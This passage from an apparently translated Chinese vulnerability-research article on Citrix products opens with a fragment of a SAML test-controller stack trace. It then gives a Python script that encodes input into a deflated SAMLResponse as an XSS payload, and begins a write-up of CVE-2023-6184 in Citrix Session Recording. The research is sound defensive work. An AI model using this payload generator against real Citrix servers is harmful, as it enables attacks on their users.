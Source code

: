 ```
   at Citrix.DeliveryServices.Authentication.Saml20.Forms.Controllers.SamlTestController.Test()</div></body></html>

```  
  
COPY  
  
下面是为该端点编写的XSS Payload：  
```
import urllib.parse
import base64
import zlib

def deflate(data, compresslevel=9):
    compress = zlib.compressobj(
            compresslevel,
            zlib.DEFLATED,
            -zlib.MAX_WBITS,
            zlib.DEF_MEM_LEVEL,
            0
    )
    deflated = compress.compress(data)
    deflated += compress.flush()
    return deflated

foo = open(0).read()
foo = '{"SAMLResponse":"SAMLResponse' + base64.b64encode(foo.encode()).decode() + '"}'
foo = base64.b64encode(deflate(foo.encode()))
print(end=urllib.parse.quote(foo))
```  
  
COPY  
# CVE-2023-6184  
  
在查看其中一个目标的攻击面时，该团队发现了一个看似默认 IIS 页面的内容，目录爆破很快表明该服务器实际上是 Citrix Session Recording 的一个实例，位于虚拟目录 /WebPlayer 下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jknWjg777xUblPF4djVZMhZx6YUtPjQU5qGCgQxIx7LI3Vnv4Uyrlibeeic21CSLJqSicJtFSMf6OgwQ/640?wx_fmt=png&from=appmsg "")  
  
在发现其他 Citrix 产品中的严重漏洞后，这是一个很有希望的线索，然而，在这里却陷入了死胡同。由于页面源代码中没有关于应用程序底层功能的任何提示，为了取得进一步的进展，只能深入研究源代码。  
# 深入研究应用程序  
  
Citrix Session Recording并不广泛使用，即使你在他们的下载门户中有一个活动帐户，该团队的目标是正在运行的Citrix Session Recording 2308，这是当时的最新版本，而他们只能获得2203的ISO，Citrix_Virtual_Apps_and_Desktop_7_2203.iso，这不是很理想，因此该团队只能假设应用程序的主要功能是相同的。  
  
该应用程序用 .NET 编写的，只能在 Windows 上的 IIS 上运行，此外，它还需要一系列先决条件设置。经过一天的设置和 VirtualBox 的调试之后，该团队终于安装并运行了应用程序的本地环境。  
  
默认情况下，Session Recording 似乎使用本地 Windows 用户身份验证来控制对整个站点的访问，这与目标行为并不一致，因此该团队在 IIS 中禁用了 Windows 本地身份验证并继续测试。  
  
任何 IIS 应用程序的核心部分之一就是 web.config 文件，它不仅配置站点的属性，还指定路由、注册 DLL、编录经过身份验证和未经身份验证的目录，以及其他有趣的事情。在这种情况下，有件事引起了该团队的注意：  
```
<system.runtime.remoting>
<application>
  <service>
    <wellknown       mode="Singleton"       type="SmAudBroker.FileSearch, SsRecBroker"       objectUri="Player.rem"        />
  </service>
  <service>
    <wellknown       mode="Singleton"       type="SmAudBroker.RestApiStat, SsRecBroker"       objectUri="RestApiStat.rem"        />
  </service>
```
